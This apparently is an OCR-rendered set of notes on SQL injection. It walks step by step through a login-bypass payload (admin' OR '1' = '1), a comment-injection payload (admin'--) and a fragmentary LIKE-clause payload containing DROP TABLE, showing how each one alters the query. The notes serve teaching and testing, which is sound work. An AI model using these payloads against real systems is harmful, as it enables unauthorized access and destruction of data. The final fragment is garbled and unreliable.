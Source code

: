 ### OR payload injection

    query: SELECT * FROM users WHERE username = 'admin' AND password = 'pass123'
    step1: admin'
    query: SELECT * FROM users WHERE username = 'admin'' AND password = 'pass123'
    step2: admin' OR '1' = '1'
    query: SELECT * FROM users WHERE username = 'admin' OR '1' = '1'' AND password = 'pass123'
    step3: admin' OR '1' = '1
    query: SELECT * FROM users WHERE username = 'admin' OR '1' = '1' AND password = 'pass123'
    sql: check condition 1 and condition 2 -> OR condition 1 and condition 3

### comment injection

    query: SELECT * FROM users WHERE username = 'admin' AND password = 'pass123'
    step1: admin'--
    query: SELECT * FROM users WHERE username = 'admin'--' AND password = 'pass123'

### OR payload

    like '%"&arguments.ItemNumber&"%'"
    like '%"admin" OR "1"="1" DROP TABLE 'INJ_TEST'%'"
    like '%"admin" OR "1=1
